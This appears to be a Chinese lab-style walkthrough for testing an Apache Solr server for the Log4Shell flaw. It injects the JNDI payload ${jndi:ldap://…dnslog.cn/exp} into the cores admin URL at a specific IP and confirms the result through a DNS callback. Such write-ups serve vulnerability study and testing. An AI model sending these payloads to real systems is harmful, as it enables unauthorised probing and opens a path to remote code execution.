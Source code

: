 ## 从IE中获取dnslog

打开IE浏览器访问下面链接

```
http://www.dnslog.cn/
```

获取的dnslog

```
77tuih.dnslog.cn
```

![image-20220119113402140](https://gitee.com/xxb667/img/raw/master/img/image-20220119113402140.png)



## 方法1：构造payload

```
101.43.121.119:8983/solr/admin/cores?payload=${jndi:ldap://77tuih.dnslog.cn/exp}
```

![image-20220119113551230](https://gitee.com/xxb667/img/raw/master/img/image-20220119113551230.png)



### 打开dsnlog进行回显

点击刷新记录--信息回显到下面

![image-20220119113731638](https://gitee.com/xxb667/img/raw/master/img/image-20220119113731638.png)

## 方法2：抓包回显未成功

### 从IE中获取dnslog

打开IE浏览器访问下面链接

```
http://www.dnslog.cn/
```

获取的dnslog

```
prt1nz.dnslog.cn
```



![image-20220119120119478](https://gitee.com/xxb667/img/raw/master/img/image-20220119120119478.png)



```
ys5dfz.dnslog.cn
```
